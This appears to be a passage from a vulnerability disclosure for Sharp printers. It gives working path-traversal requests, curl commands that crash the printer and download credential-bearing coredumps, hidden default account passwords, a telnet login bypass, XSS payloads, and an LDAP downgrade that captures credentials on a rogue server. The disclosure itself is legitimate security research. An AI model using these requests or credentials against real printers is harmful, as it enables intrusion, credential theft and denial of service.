[ 9914.508939] x11: 000000007212fdb0 x10: 0000000000000001
[ 9914.514367] x9 : 0000000091170990 x8 : 0000000000000002
[ 9914.519683] x7 : 000000007212fd88 x6 : 0000000091172799
[ 9914.525102] x5 : 0000000000000000 x4 : 0000000000000000
[ 9914.530417] x3 : 0000000000000000 x2 : 000000007212fdd0
[ 9914.535764] x1 : 0000000000000061 x0 : 0000000000000000
[ 9914.543566] [BSPIF]bspif_pof_wait:signal receive(-512)
[ 9914.548702] [BSPIF]bspif_pof_wait:
[ 9988.116784] Panic : Oops Exit !!! [comm:irq/20-serial] [user_mode:0]
With the creation of the corresponding coredump files:
sh-4.3# cd /mnt/log && ls -latr
[...]
-rw-r--r-- 1 root root 19133981 May 18 11:48 core-main.log.gz.001
-rw-r--r-- 1 root root 0 May 18 11:48 ERR_IFS.log
-rw-r--r-- 1 root root 19133981 May 18 11:48 ERR_core-main.log.gz
-rw-r--r-- 1 root root 97230 May 18 11:48 ERR_kern.log
-rw-r--r-- 1 root root 0 May 18 11:48 ERR_core-pdl.log.gz
-rw-r--r-- 1 root root 0 May 18 11:48 ERR_log_ui_mainview.log
-rw-r--r-- 1 root root 21262 May 18 11:48 ERR_pdl.log
-rw-r--r-- 1 root root 315 May 18 11:48 ERR_nf.log
-rw-r--r-- 1 root root 314620 May 18 11:48 ERR_main.log
-rw-r--r-- 1 root root 97363 May 18 11:48 kern.log.001
-rw-r--r-- 1 root root 18653 May 18 11:48 vmstat.log.001
-rw-r--r-- 1 root root 377 May 18 11:48 umount.log.001
-rw-r--r-- 1 root root 1861 May 18 11:48 slinkerr1.log
-rw-r--r-- 1 root root 4582 May 18 11:48 slinkerr0.log
-rw-r--r-- 1 root root 45625 May 18 11:48 watch_idle.log
-rw-r--r-- 1 root root 314692 May 18 11:49 main.log
-rw-r--r-- 1 root root 132 May 18 11:49 bsp.log
-rw-r--r-- 1 root root 96435 May 18 11:49 kern.log
-rw-r--r-- 1 root root 407 May 18 11:49 vmstat.log
sh-4.3# date
Thu May 18 11:50:40 UTC 2023
sh-4.3# uptime
11:51:55 up 3 min, 0 users, load average: 1.36, 0.95, 0.40
sh-4.3#
Details - World-readable coredump files and insecure storage of credentials
It was observed that the coredump files located in the Sharp printers have incorrect permissions. Any local user can read them. These coredump files contain all the clear-text credentials of the users.
Core files present in /mnt/log:
sh-4.3# ls -la /mnt/log | grep core
-rw-r--r-- 1 root root 16120921 May 11 15:18 ERR_core-main.log.gz
-rw-r--r-- 1 root root 0 May 11 15:18 ERR_core-pdl.log.gz
-rw-r--r-- 1 root root 0 Jan 1 2000 SWOFF_core-IFS.log.gz
-rw-r--r-- 1 root root 0 Jan 1 2000 SWOFF_core-IFS.log.gz.001
-rw-r--r-- 1 root root 0 Jan 1 2000 SWOFF_core-IFS.log.gz.002
-rw-r--r-- 1 root root 0 Jan 1 2000 SWOFF_core-NX.log.gz
-rw-r--r-- 1 root root 0 Jan 1 2000 SWOFF_core-NX.log.gz.001
-rw-r--r-- 1 root root 0 Jan 1 2000 SWOFF_core-NX.log.gz.002
-rw-r--r-- 1 root root 0 Jan 1 2000 SWOFF_core-bcr_iface.log.gz
-rw-r--r-- 1 root root 0 Jan 1 2000 SWOFF_core-bcr_iface.log.gz.001
-rw-r--r-- 1 root root 0 Jan 1 2000 SWOFF_core-bcr_iface.log.gz.002
-rw-r--r-- 1 root root 0 Jan 1 2000 SWOFF_core-main.log.gz
-rw-r--r-- 1 root root 0 Jan 1 2000 SWOFF_core-main.log.gz.001
...
-rw-r--r-- 1 root root 0 Jan 1 2000 core-main.log.gz
-rw-r--r-- 1 root root 16120921 May 11 15:18 core-main.log.gz.001
-rw-r--r-- 1 root root 13566117 May 11 15:16 core-main.log.gz.002
-rw-r--r-- 1 root root 17158453 May 11 15:12 core-main.log.gz.003
-rw-r--r-- 1 root root 17332354 May 11 12:32 core-main.log.gz.004
-rw-r--r-- 1 root root 20440117 May 11 12:28 core-main.log.gz.005
-rw-r--r-- 1 root root 22170528 May 10 11:47 core-main.log.gz.006
-rw-r--r-- 1 root root 0 Jan 1 2000 core-main.log.gz.007
...
sh-4.3# cd /mnt/log && ls -la|grep ERR
-rw-r--r-- 1 root root 0 May 15 14:11 ERR_IFS.log
-rw-r--r-- 1 root root 17316180 May 15 14:11 ERR_core-main.log.gz
-rw-r--r-- 1 root root 0 May 15 14:11 ERR_core-pdl.log.gz
-rw-r--r-- 1 root root 97316 May 15 14:11 ERR_kern.log
-rw-r--r-- 1 root root 0 May 15 14:11 ERR_log_ui_mainview.log
-rw-r--r-- 1 root root 314188 May 15 14:11 ERR_main.log
-rw-r--r-- 1 root root 315 May 15 14:11 ERR_nf.log
-rw-r--r-- 1 root root 21262 May 15 14:11 ERR_pdl.log
sh-4.3#
The files are world-readable and contain valid coredump files as shown below:
kali% file core-main.log
core-main.log: ELF 32-bit LSB core file, ARM, version 1 (SYSV), SVR4-style, from '/tmp/main/main -cpu=1 -stack=8000 -fifo -nosigmask -nodlychk', real uid: 0, effective uid: 0, real gid: 0, effective
The core file contains in clear-text:
- session IDs;
- password for all the users (even when the printer booted and no user logged into the printer (!));
- emails;
- Encryption keys.
For example, some keys:
kali% strings core-main.log|grep -A 4 -B 4 ENCRYPT_KEY
CloudPollingConst
VENDOR_KEY
YiqUwHIymoiuwFPjja04u+Q+zeokggNSuYv4g+axNAIx4vwnnrPmfsFrAsqZr4RFeR6EgwWRvzgledwTz9MZAw==
TENANT_ENCRYPT_KEY
GMuQt[REDACTED]
The core file contains the password (PASS-PIERRE) of the admin user even when the admin user has not been logged-in the printer since the printer booted:
kali% zcat core-main.log.gz.001 | strings | grep PASS-PIERRE
PASS-PIERRE
All the clear-text passwords can be found inside the core file:
kali% zcat core-main.log.gz.001 | strings | less
/mnt/std01/ACCBURS/
/mnt/std04/ACC/BROWSER/BROWSER_NONUSR
/mnt/std01/ACC/AccBackUp/BROWSER_NONUSR
/mnt/std01/ACC/AccUserInfo
/mnt/std04/ACC
/mnt/std01/ACC/AccUserInfo2
/mnt/std04/ACC/BROWSER
/mnt/std01/ACC/AccGrpPrmtInfo
/mnt/std01/ACCBURS
/mnt/std01/ACC/AccFlashUserCounter
/mnt/std01/ACC/AccFlashBackUp
/mnt/std01/ACC/AccTotalPix
/mnt/std01/ACC/AccBackUp/JobInfo
Other User
Other
Vender
Vender
Administrator
admin
PASS-PIERRE <------------------- clear-text password for admin
Service
service
service
User
users
users
Vender2
Vender2
FSS User
servicefss
servicefss
System Operator
sysadmin
sysadmin
Device Account
deviceaccount
deviceaccount
/mnt/std01/ACC/AccGrpHomeInfo
/mnt/std01/ACC/AccBackUp
/mnt/std01/ACC
/mnt/std01/ACC/AccUserPixel
/mnt/std01/ACC/BROWSER
/mnt/std01/ACC/AccGrpCstmInfo
There is no encryption for the /mnt/log partition:
sh-4.3# df -h /mnt/log
Filesystem Size Used Avail Use% Mounted on
/dev/mmcblk0p3 791M 145M 589M 20% /mnt/log
sh-4.3#
All the passwords can be found inside the core file after the printer just booted and no user logged: this is abnormal and shows the authentication mechanism is incorrectly implemented.
A local attacker can extract all the passwords.
A remote attacker using an additional vulnerability (e.g. Local File Inclusion) can recover all the passwords and compromise the printer (see the next vulns).
Details - Arbitrary Directory Listing without authentication
It was observed that Sharp printers are vulnerable to an arbitrary directory listing without authentication. Any attacker can list any directory located in the printer and recover any file.
It is possible to list the manual index files by visiting the /installed_emanual_list.html without authentication:

{kind=link}
By changing the folder argument in the address, it is possible to browse the entire file systems of the printer.
Request to installed_emanual_list.html?folder=../../../ will list the / file system:

{kind=link}
Files located in /etc:
{kind=link}
Using the vulnerability Local File Inclusion allowing to read any file (e.g. Coredump files), it is then possible to download any file.
An attacker can browse the file systems of the printers and download any file.
A remote attacker can recover all the passwords by downloading coredump files and compromise the printer.
Details - Local File Inclusion allowing to read any file (e.g. Coredump files) without authentication
It was observed that Sharp printers are vulnerable to a local file inclusion without authentication. Any attacker can read any file located in the printer.
Normal request to retrieve the manual index files:

By default, the manual index files are located in /mnt/std_data/manual inside the printer:
sh-4.3# pwd
/mnt/std_data/manual
sh-4.3# ls -la MX-M4071_inch_web.idx
-rw-rw-r-- 1 1000 pulse 1564 Jul 30 2020 MX-M4071_inch_web.idx
sh-4.3# ls -la
total 233
drwxrwxr-x 4 1000 pulse 2536 Jul 31 2020 .
drwxr-xr-x 9 root root 4096 Mar 1 2022 ..
-rw-rw-r-- 1 1000 pulse 1564 Jul 30 2020 MX-M2651_ab_web.idx
-rw-rw-r-- 1 1000 pulse 562 Jul 30 2020 MX-M2651_aus_web.idx
-rw-rw-r-- 1 1000 pulse 1564 Jul 30 2020 MX-M2651_canada_web.idx
-rw-rw-r-- 1 1000 pulse 9590 Jul 30 2020 MX-M2651_europe_web.idx
-rw-rw-r-- 1 1000 pulse 1564 Jul 30 2020 MX-M2651_inch_web.idx
-rw-rw-r-- 1 1000 pulse 562 Jul 30 2020 MX-M2651_uk_web.idx
-rw-rw-r-- 1 1000 pulse 1564 Jul 30 2020 MX-M2651_usa_web.idx
-rw-rw-r-- 1 1000 pulse 1564 Jul 30 2020 MX-M3051_ab_web.idx
-rw-rw-r-- 1 1000 pulse 562 Jul 30 2020 MX-M3051_aus_web.idx
-rw-rw-r-- 1 1000 pulse 1564 Jul 30 2020 MX-M3051_canada_web.idx
-rw-rw-r-- 1 1000 pulse 9590 Jul 30 2020 MX-M3051_europe_web.idx
The normal request is:
GET /installed_emanual_down.html?path=/manual/MX-M4071_inch_web.idx HTTP/1.1
Host: 10.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
The path= argument can be manipulated to retrieve any file in the printer. The session cookie is not required as this vulnerability does not require authentication:
For example, retrieving /etc/passwd:
GET /installed_emanual_down.html?path=/manual/../../../etc/passwd HTTP/1.1
Host: 10.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
It is possible to generate a coredump file, download it and extract credentials to remotely compromise the printer without credentials using this vulnerability along with the vulnerabilities:
- Invalid (0x000000d0) pointer dereference - Remote DoS without authentication or
- Memory corruption in the main program - Remote Code Execution against the web server without authentication and
- World-readable coredump files and insecure storage of credentials,
Generation of the coredump file on the printer
Using the HTTP request:
kali% var=`perl -e "print 'A'x639"`; curl -v -b "MFPSESSIONID=${var}EDCB" http://10.0.0.1/system.html
* Trying 10.0.0.1:80...
* Connected to 10.0.0.1 (10.0.0.1) port 80 (#0)
> GET /system.html HTTP/1.1
> Host: 10.0.0.1
> User-Agent: curl/7.88.1
> Accept: */*
> Cookie: MFPSESSIONID=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAEDCB
>
Local File Inclusion of the coredump file
We download the coredump file using the Local File Inclusion:
kali% curl -i -s -k -X $'GET' \
-H $'Host: 10.0.0.1' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
$'http://10.0.0.1/installed_emanual_down.html?path=/manual/../../../mnt/log/core-main.log.gz.001' > core-main.log.gz.001
kali% ls -la
total 16920
drwx------ 2 user user 4096 May 15 10:13 .
drwx------ 6 user user 4096 May 15 10:13 ..
-rw------- 1 user user 17316455 May 15 10:13 core-main.log.gz.001
kali% head -n 9 core-main.log.gz.001
HTTP/1.1 200 OK
Server: Rapid Logic/1.1
MIME-version: 1.0
Date: Thu Jan 1 00:02:12 1970 GMT
Content-Type: application/octet-stream; name=core-main.log.gz.001
Content-disposition: attachment; filename=core-main.log.gz.001
Content-Length: 17316180
Connection: close
We remove the first 9 lines from the core file (corresponding to HTTP headers) to generate a valid gzip file:
kali% vi core-main.log.gz.001
kali% file core-main.log.gz.001
core-main.log.gz.001: gzip compressed data, last modified: Mon May 15 14:09:45 2023, from Unix, original size modulo 2^32 176379936 gzip compressed data, reserved method, ASCII, has CRC, has comment, encrypted, from FAT filesystem (MS-DOS, OS/2, NT), original size modulo 2^32 176379936
kali%
Retrieve of credentials using the coredump files
The core file contains the password (PASS-PIERRE) of the admin user even when the admin user has not been logged-in to the printer since the printer booted:
All the passwords can be found inside the core file, located near the admin string:
kali% zcat core-main.log.gz.001 | strings | less
/mnt/std01/ACCBURS/
/mnt/std04/ACC/BROWSER/BROWSER_NONUSR
/mnt/std01/ACC/AccBackUp/BROWSER_NONUSR
/mnt/std01/ACC/AccUserInfo
/mnt/std04/ACC
/mnt/std01/ACC/AccUserInfo2
/mnt/std04/ACC/BROWSER
/mnt/std01/ACC/AccGrpPrmtInfo
/mnt/std01/ACCBURS
/mnt/std01/ACC/AccFlashUserCounter
/mnt/std01/ACC/AccFlashBackUp
/mnt/std01/ACC/AccTotalPix
/mnt/std01/ACC/AccBackUp/JobInfo
Other User
Other
Vender
Vender
Administrator
admin
PASS-PIERRE <--------------------- clear-text password for admin
Service
service
service
User
users
users
Vender2
Vender2
FSS User
servicefss
servicefss
System Operator
sysadmin
sysadmin
Device Account
deviceaccount
deviceaccount
/mnt/std01/ACC/AccGrpHomeInfo
/mnt/std01/ACC/AccBackUp
/mnt/std01/ACC
/mnt/std01/ACC/AccUserPixel
/mnt/std01/ACC/BROWSER
/mnt/std01/ACC/AccGrpCstmInfo
Retrieve of credentials using configuration files
The configuration files containing the credentials can be found in the /mnt/std04/DBMS/uaccnt.
When a password is updated, the files present in /mnt/std04/DBMS/uaccnt/* will be updated. It is possible to retrieve some credentials from these files:
sh-4.3# pwd
/mnt/std04/DBMS/uaccnt
sh-4.3# hexdump -C 9.01
00000000 ff ff ff bf ff ff ff ff ff ff ff ff ff ff ff ff |................|
00000010 ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff |................|
[...]
00005010 61 64 6d 69 6e 02 00 00 00 00 d0 00 00 64 65 76 |admin........dev|
00005020 69 63 65 61 63 63 6f 75 6e 74 09 00 00 00 00 50 |iceaccount.....P|
00005030 00 00 4f 74 68 65 72 01 00 00 00 00 70 00 00 73 |..Other.....p..s|
00005040 65 72 76 69 63 65 04 00 00 00 07 30 00 00 66 73 |ervice.....0..fs|
00005050 73 07 00 00 00 01 70 00 00 79 73 61 64 6d 69 6e |s.....p..ysadmin|
00005060 08 00 00 00 00 50 00 00 75 73 65 72 73 05 00 00 |.....P..users...|
00005070 00 00 60 00 00 56 65 6e 64 65 72 03 00 00 00 06 |..`..Vender.....|
00005080 10 00 00 32 06 00 00 00 00 00 00 00 00 00 00 00 |...2............|
00005090 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 |................|
[...]
sh-4.3#
An attacker can download these files and analyze them to retrieve the passwords.
Details - Backdoor webpage - Listing of session cookies without authentication
It was observed that Sharp printers are vulnerable to a listing of session cookies without authentication. Any attacker can list valid cookies by visiting a backdoor webpage and use them to authenticate to the printers.
It is possible to list the MFPSESSIONID session cookies by visiting the /sessionlist.html webpage without authentication:

{kind=link}
It is also possible to use curl from another machine:
kali% curl -kv http://10.0.0.1/sessionlist.html
[...]
<h2>Session list</h2>
<table class="matrix">
<tr>
<th>No.</th>
<th>User</th>
<th>From</th>
<th>Last login</th>
<th>Last access</th>
<th>Language ID</th>
<th>Cookie</th>
</tr>
<tr>
<td>0000</td>
<td>Administrator</td>
<td>10.0.0.10</td>
<td>2023/05/16(Tue) 13:35:38</td>
<td>2023/05/16(Tue) 13:35:38</clearTOStd>
<td>02</td>
<td>MFPSESSIONID=0200736B459709ABA789505BF27D765756D39B82B7ADE25E302820230516133538428B5C9D</td>
</tr>
</table>
[...]
An attacker can retrieve valid session cookies and compromise the printer.
Note that a victim user must have been logged inside the printer prior to this attack in order to retrieve the corresponding session cookies.
Details - Configuration webpages reachable without authentication
It was observed that some authenticated webpages are reachable without authentication on Sharp printers. Any attacker can modify parameters on these webpages without authentication.
A list of webpages supposed to require authentication but reachable without authentication is listed below:
- /address_smime_install.html
- /send_fax_fcode_entry.html
- /send_fax_fcode_entry_relay.html
- /send_fax_fcode.html
- /send_inbound_address_entry.html
- /send_inbound_entry.html
- /send_inbound.html
- /send_receive_fw.html
- /printer_ps.html
For example, /printer_ps.html:
{kind=link}
An attacker can modify parameters of the printers without authentication.
The vendor confirmed this is the attended behavior.
Details - Reboot without authentication - Remote DoS
It was observed that a specific webpage is reachable without authentication on Sharp printers. Any attacker can use this webpage to reboot the printer.
It is possible to reboot the printer by visiting the /sys_trayentryreboot.html without authentication.
When confirming the Reboot Now action, the printer will reboot:

{kind=link}
The printer will then reboot and will be unreachable for some minutes:
PING 10.0.0.1 (10.0.0.1) 56(84) bytes of data.
^C
--- 10.0.0.1 ping statistics ---
5 packets transmitted, 0 received, 100% packet loss, time 4083ms
An attacker can DoS the printer by rebooting it indefinitely.
Details - Backdoor access - Service
Sharp printers are configured with default credentials. Some accounts are hidden and can be abused by attackers to compromise the printers.
When analyzing the configuration of the printers, it appears there are several accounts visible on the web interface:
Administrator(uid 3)System Administrator(uid 8, asSystem Operator)User(uid 5)Device Account(uid 9)Other User(uid 1)
After doing reverse engineering, the default passwords have been obtained:
- System Administrator: sysadmin
- User: users
- Device Account: deviceaccount
- Other User: Other
The Service account (corresponding to uid 4) does not appear on the user list, is not documented and allows an attacker to change the configuration of the printers and update the firmware image. The password for Service is service.
Several webpages can be found corresponding to this service user:
- /devicecloning_pp.html
- /devicecloning.html
- /service_ura_status_page.html
- /service_testpage_ok.html
- /service_testpage.html
- /service_syslog_view.html
- /service_syslog_settings_storage.html
- /service_syslog_settings_server.html
- /service_syslog_setting.html
- /service_syslog_select.html
- /service_syslog_save.html
- /service_syslog_download.html
- /service_softsw.html
- /service_reboot.html
- /serfildata_savepc.html
- /service_account.html
- /service_admin.html
- /service_device_cloning.html
- /service_filingdata.html
- /service_testpage.html
- /service_firm.html
- /service_testpage.html
- /service_font_down.html
- /service_joblog.html
- /service_joblog_list.html
- /service_joblog_download.html
- /service_joblog_select.html
- /service_joblog_list_download.html
- /service_machineid.html
- /service_password.html
- /sys_paperproperty.html
- /sys_paperproperty_entry.html
Listing of users:
{kind=link}
The service account can be discovered by visiting the webpage http://[ip]/account_user_entry.html?userid=-4 but the information cannot be edited:
{kind=link}
The service account can be used to change the configuration of the printer. The default webpage is http://[ip]/service_testpage.html and provides access to a lot of hidden functionalities:
- Device Cloning
- Update of the firmware image to insert a malicious firmware image
- Export settings
- Configuration of the log server (disabling the logs, erasing the logs, ...)
Device cloning:
{kind=link}
Update of the firmware:
{kind=link}
An attacker can use this additional backdoor account to compromise the printers.
Details - Backdoor access - FSS User
Sharp printers are configured with default credentials. Some accounts are hidden and can be abused by attackers to compromise the printers.
When analyzing the configuration of the printers, it appears there are several accounts visible on the web interface:
Administrator(uid 3)System Administrator(uid 8, asSystem Operator)User(uid 5)Device Account(uid 9)Other User(uid 1)
After doing reverse engineering, the default passwords have been obtained:
- System Administrator: sysadmin
- User: users
- Device Account: deviceaccount
- Other User: Other
The FSS User account (corresponding to uid 7) does not appear on the user list, is not documented and allows an attacker to change the configuration of the printers and update the firmware image.
The password for FSS User is servicefss.
The FSS User has also admin privileges.
Several webpages can be found corresponding to this service user:
- /fss_default.html
- /fss.html
- /fss_password.html
- /fss_account.html
- /fss_backup_export.html
- /fss_backup.html
- /fss_backup_reboot.html
The service account can be discovered by visiting the webpage http://[ip]/account_user_entry.html?userid=-7 but the information cannot be edited:
{kind=link}
The FSS User account can be used to change the configuration of the printer. The default webpage is http://[ip]/fss.html and provides access to hidden functionalities related to the support and a blind SSRF vulnerability:
{kind=link}
Reboot of the printer:
{kind=link}
An attacker can use this additional backdoor account to compromise the printers.
Details - Insecure default credentials
Sharp printers are configured with default and insecure credentials.
When doing reverse engineering against the main binary located inside the Sharp firmware image, we can extract the list of passwords for:
Administrator/adminOther User/OtherDevice Account/deviceaccountFSS User/servicefssService/serviceUser/usersSystem Operator/sysadmin
Listing of username when analyzing main:
The listing of users can be retrieved from the web interface, using the admin user:
Other User- http://[ip]/account_user_entry.html?userid=-1Vender- http://[ip]/account_user_entry.html?userid=-2Administrator- http://[ip]/account_user_entry.html?userid=-3Service- http://[ip]/account_user_entry.html?userid=-4User- http://[ip]/account_user_entry.html?userid=-5Vender2- http://[ip]/account_user_entry.html?userid=-6FSS User- http://[ip]/account_user_entry.html?userid=-7, with admin privilegesSystem Operator- http://[ip]/account_user_entry.html?userid=-8Device Account- http://[ip]/account_user_entry.html?userid=-9, with admin privileges
An attacker can use these default accounts to compromise the printers.
The vendor confirmed this is the attended behavior.
Details - read admin access on telnet
It is possible to bypass the authentication of the telnet server of any Sharp Printer (running any firmware version) by specifying an invalid user.
This authentication bypass provides an attacker with a full READ admin access to the printer.
Without the corresponding password of the admin user, the access will be denied:
kali% telnet 10.0.0.1
Trying 10.0.0.1...
Connected to 10.0.0.1.
Escape character is '^]'.
SHARP MX-M365N Ver 01.06.00.0h.19 TELNET server.
Copyright(C) 2005- SHARP CORPORATION
Copyright(C) 2005- silex technology, Inc.
login: admin
'admin' user needs password to login.
password:
Login incorrect.
Connection closed by foreign host.
kali%
It is possible to send an invalid username (e.g. adminAAAAAAAAAAAAAAAA[...]) to bypass the authentication and get READ access with admin privileges:
kali% telnet 10.0.0.1
Trying 10.0.0.1...
Connected to 10.0.0.1.
Escape character is '^]'.
SHARP MX-M365N Ver 01.06.00.0h.19 TELNET server.
Copyright(C) 2005- SHARP CORPORATION
Copyright(C) 2005- silex technology, Inc.
login: adminAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
User 'adminAAA' logged in.
No. Item Value (level.1)
----------------------------------------------------------------------
1 : Configure General
2 : Configure TCP/IP
3 : Configure NetWare
4 : Configure AppleTalk
5 : Configure NetBIOS
6 : Configure AP I/F
7 : Configure Gateway
97 : Display Status
98 : Reset Settings to Defaults
99 : Exit
Please select(1 - 99)? 1
No. Item Value (level.2)
----------------------------------------------------------------------
1 : Print status page after bootup : NO
2 : SSL Mode : ALL
3 : Rendezvous Enable : ENABLE
4 : Rendezvous Name : "MX-M365N"
5 : SMBC Enable : ENABLE
6 : 802.1X auth
7 : Frame Size : 1514
8 : SMB Authentication Flags : 15
99 : Back to prior menu
Please select(1 - 99)? 99
No. Item Value (level.1)
----------------------------------------------------------------------
1 : Configure General
2 : Configure TCP/IP
3 : Configure NetWare
4 : Configure AppleTalk
5 : Configure NetBIOS
6 : Configure AP I/F
7 : Configure Gateway
97 : Display Status
98 : Reset Settings to Defaults
99 : Exit
Please select(1 - 99)?
Details - XSS on the /login.html page
There are 2 reflected XSS vulnerabilities located in the /login.html webpage.
HTTP request sent to /login.html, with the query string containing the payload <XSS>";alert('XSS');":
The first XSS appears on the response on line 32:
The second XSS appears on the response on line 183:

Details - XSS on all other HTML pages
There are 3 reflected XSS vulnerabilities located in all the html webpages.
An attacker can send a HTTP request to any HTML webpage with the query string containing ";alert(1);<XSS> to trigger:
- 2 JavaScript-based XSS
- 1 HTML based XSS
The HTTP request is sent to /main.html, with the query string containing the payload ";alert(1);<XSS>:
The first XSS appears on the response on line 32:
The second XSS appears on the response on line 87:

The third XSS appears on the response on line 221:
From the tests, all the HTML webpages are vulnerable to these 3 XSS.
Details - Exfiltration of LDAP credentials by downgrading the security
Sharp printers can be configured with a connection to a LDAP server, with credentials.
While the LDAP password is not shown on the web interface, an attacker with the admin password can retrieve the password by downgrading the authentication type to SIMPLE, which will enable clear-text communication to a malicious server.
With the Connect Test, an attacker can downgrade the security of the authentication to SIMPLE and retrieve the password in clear-text by specifying a malicious OpenLDAP server:
LDAP Configuration - http://10.0.0.1/nw_ldap_entry.html?ldapid=0:

{kind=link}
With a malicious OpenLDAP server receiving the connection, the password will be displayed in the logs:
kali# /usr/sbin/slapd -d 10 -f /etc/ldap/slapd.conf -h "ldap:/// ldaps:///"
6458d55e.3103c227 0x7fe72981e200 @(#) $OpenLDAP: slapd 2.5.13+dfsg-5 (Feb 8 2023 01:56:12) $
Debian OpenLDAP Maintainers <pkg-openldap-devel@lists.alioth.debian.org>
6458d55e.319e91af 0x7fe72981e200 slapd starting
6458d55e.31a5bad7 0x7fe727bff6c0 daemon: added 4r listener=(nil)
6458d55e.31a6707c 0x7fe727bff6c0 daemon: added 7r listener=0x5586390ead60
6458d55e.31a6b53d 0x7fe727bff6c0 daemon: added 8r listener=0x5586390eae30
6458d55e.31a6f00d 0x7fe727bff6c0 daemon: added 9r listener=0x5586390ea740
6458d55e.31a7661d 0x7fe727bff6c0 daemon: added 10r listener=0x5586390ea810
6458d55e.31a94b33 0x7fe727bff6c0 daemon: epoll: listen=7 active_threads=0 tvp=zero
6458d55e.31a96f6a 0x7fe727bff6c0 daemon: epoll: listen=8 active_threads=0 tvp=zero
6458d55e.31a97916 0x7fe727bff6c0 daemon: epoll: listen=9 active_threads=0 tvp=zero
6458d55e.31a981b7 0x7fe727bff6c0 daemon: epoll: listen=10 active_threads=0 tvp=zero
6458d55e.31a9933f 0x7fe727bff6c0 daemon: activity on 1 descriptor
6458d55e.31a99baf 0x7fe727bff6c0 daemon: activity on:6458d55e.31a9a375 0x7fe727bff6c0
6458d55e.31a9b6dc 0x7fe727bff6c0 daemon: epoll: listen=7 active_threads=0 tvp=zero
6458d55e.31a9d392 0x7fe727bff6c0 daemon: epoll: listen=8 active_threads=0 tvp=zero
6458d55e.31a9dc6e 0x7fe727bff6c0 daemon: epoll: listen=9 active_threads=0 tvp=zero
6458d55e.31a9f2b6 0x7fe727bff6c0 daemon: epoll: listen=10 active_threads=0 tvp=zero
6458d562.355e84dc 0x7fe727bff6c0 daemon: activity on 1 descriptor
6458d562.355f3b42 0x7fe727bff6c0 daemon: activity on:6458d562.355f593f 0x7fe727bff6c0
6458d562.355fde77 0x7fe727bff6c0 daemon: epoll: listen=7 busy
6458d562.355ffeb9 0x7fe727bff6c0 daemon: epoll: listen=8 active_threads=0 tvp=zero
6458d562.35601b67 0x7fe727bff6c0 daemon: epoll: listen=9 active_threads=0 tvp=zero
6458d562.3560372e 0x7fe727bff6c0 daemon: epoll: listen=10 active_threads=0 tvp=zero
6458d562.35638596 0x7fe7273fe6c0 daemon: accept() = 14
6458d562.35646744 0x7fe7273fe6c0 daemon: listen=7, new connection on 14
6458d562.3564fc1e 0x7fe727bff6c0 daemon: activity on 1 descriptor
6458d562.35656f57 0x7fe727bff6c0 daemon: activity on:6458d562.35658b4c 0x7fe727bff6c0
6458d562.3565d7f5 0x7fe727bff6c0 daemon: epoll: listen=7 active_threads=0 tvp=zero
6458d562.3565fb50 0x7fe727bff6c0 daemon: epoll: listen=8 active_threads=0 tvp=zero
6458d562.356615c1 0x7fe727bff6c0 daemon: epoll: listen=9 active_threads=0 tvp=zero
6458d562.35662d31 0x7fe727bff6c0 daemon: epoll: listen=10 active_threads=0 tvp=zero
6458d562.35691b42 0x7fe7273fe6c0 daemon: added 14r (active) listener=(nil)
6458d562.356a5b81 0x7fe727bff6c0 daemon: activity on 2 descriptors
6458d562.356b0c68 0x7fe727bff6c0 daemon: activity on:6458d562.356b54fa 0x7fe727bff6c0 14r6458d562.356b948e 0x7fe727bff6c0
6458d562.356bfc9e 0x7fe727bff6c0 daemon: read active on 14
6458d562.356ce70e 0x7fe727bff6c0 daemon: epoll: listen=7 active_threads=0 tvp=zero
6458d562.356d5571 0x7fe727bff6c0 daemon: epoll: listen=8 active_threads=0 tvp=zero
6458d562.356db465 0x7fe727bff6c0 daemon: epoll: listen=9 active_threads=0 tvp=zero
